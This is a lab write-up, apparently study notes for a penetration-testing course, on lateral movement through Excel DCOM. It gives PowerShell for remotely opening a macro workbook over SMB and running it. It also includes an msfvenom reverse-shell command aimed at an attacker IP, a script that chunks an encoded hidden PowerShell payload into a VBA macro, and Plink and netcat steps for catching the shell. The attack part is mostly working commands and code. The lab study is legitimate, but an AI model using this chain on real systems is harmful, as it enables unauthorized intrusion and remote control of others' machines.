

DCOM objects related to Microsoft Office allow lateral movement, both through the use of Outlook as well as PowerPoint. Since this requires the presence of Microsoft Office on the target computer, this lateral movement technique is best leveraged against workstations.

To begin, we must first discover the available methods or sub-objects for this DCOM object usingPowerShell. For this example, we are operating from the Windows 10 client as the jeff_admin user, a local admin on the remote machine.

First create an instance of the object using PowerShell and the CreateInstance method of the System.Activator class.

As an argument to CreateInstance, we must provide its type by using the GetTypeFromProgID method, specifying the program identifier (which in this case is Excel.Application), along with the IP address of the remote workstation.

With the object instantiated, we can discover its available methods and objects using the Get-Member cmdlet. 

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.164.5"))
$com | Get-Member
```


We will focus on the Run method, which will allow us to execute a Visual Basic for Applications (VBA) macro remotely. To use this, we’ll first create an Excel document with a proof of concept macro by selecting the VIEW ribbon and clicking Macros from within Excel.

In this simple proof of concept, we will use a VBA macro that launches notepad.exe :


Select a name for the macro, in this case I named it `Mymacro` and click `Create`. 


A module will be created where we can add our payload.

The payload we added is:

```vb
Sub Mymacro()
	Shell ("notepad.exe")
End Sub
```

![d_macroNote(d_macroNote.png)

Save the Excel file in the legacy .xls format.


To execute the macro, we must first copy the Excel document to the remote computer. Since we must be a local administrator to take advantage of DCOM, we should also have access to the remote filesystem through SMB.

We can use the Copy method of the .NET System.IO.File class to copy the file. To invoke it, we specify the source file, destination file, and a flag to indicate whether the destination file should be overwritten if present ($true), as shown in the PowerShell code below:

```powershell
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\172.16.164.5\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```




Before we are able to execute the Run method on the macro, we must first specify the Excel document it is contained in. This is done through the Open method of the Workbooks object, which is also available through DCOM as shown in the enumeration of methods and objects:


The Workbooks object is created from the $com `COM` handle we created earlier to perform our enumeration.

We can call the Open method directly with code like this:

```powershell
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
```

However, we are met with an error:


The reason for this error is that when Excel.Application is instantiated through DCOM, it is done with the SYSTEM account. The SYSTEM account does not have a profile, which is used as part of the opening process. To fix this problem, we can simply create the Desktop folder at `C:\Windows\SysWOW64\config\systemprofile`, which satisfies this profile requirement.

Creating the directory structure:

```powershell
$Path = "\\172.16.164.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
```


With the profile folder for the SYSTEM account created, we can attempt to call the Open method again, which now should succeed and open the Excel document.

Now that the document is open, we can call the Run method with the following complete PowerShell script:

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.164.5"))

$LocalPath = "C:\Users\jeff_admin\Desktop\Macro_Test1.xls"
$RemotePath = "\\172.16.164.5\c$\Macro_Test1.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\172.16.164.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\Macro_Test1.xls")
$com.Run("Mymacro")
```


___

## Improving Attack with Reverse Shell

While creating a remote Notepad application is interesting, we need to upgrade this attack to launch a reverse shell instead. Since we are using an Office document, we can simply reuse the Microsoft Word client side code execution technique that we covered in a previous module.

To do this, we’ll use msfvenom to create a payload for an HTA attack since it contains the Base64 encoded payload to be used with PowerShell:

```bash
┌──(kali㉿kali)-[~/www/AD-Enum]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.164.10 LPORT=443 -f hta-psh -o evil.hta  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 6963 bytes
Saved as: evil.hta
```

Next, we extract the line starting with “powershell.exe -nop -w hidden -e” followed by the Base64 encoded payload and use the simple Python script below to split the command into smaller chunks, bypassing the size limit on literal strings in Excel macros:

```python
#/usr/bin/python

str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'
```

No we can run the script and pipe it to our clipboard and should be good to go.

```bash
python dcom_chunk.py | xclip -selection clipboard
```

With the shellcode now on the clipboard we can paste it into the macro.

```vb
Sub Mymacro()
	Dim Str As String

	Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
	Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
	Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"

	CreateObject("Wscript.Shell").Run Str
End Sub
```


Here, we run the script and get our reverse shell from the DC


> Note: I also enabled the Macro by going into Excel, go to File, select Options, select Trust Center, select Trust Center settings (on the right hand side), select Macro Settings and choose "Enable all macros".

___

## Pivot back to Kali Attack Machine

Next, we will set up a pivoting channel from the domain controller to our Kali machine and obtain a reverse shell.

First, we have to kill the Excel process on the Windows Domain Controller. Next, we set up `Plink.exe` to forward our incoming shell back to our Kali machine via the following:

> Plink.exe -N -L 0.0.0.0:443:Kali-IP:Kali-Port user@Kali-IP

```bash
c:\Tools\port_redirection_and_tunneling>.\plink.exe -N -L 0.0.0.0:443:192.168.119.164:443 kali@192.168.119.164
Using username "kali".
kali@192.168.119.164's password:
```

This essentially says to forward whatever comes in on local host port 443 to the kali machine on port 443. We then set our listener on the Kali machine to catch the shell, and re-run our payload.


Notice that I have an alias for `wlistener` which is in my .zshrc file:

```bash
alias = "rlwrap nc -lvnp 443"
```
___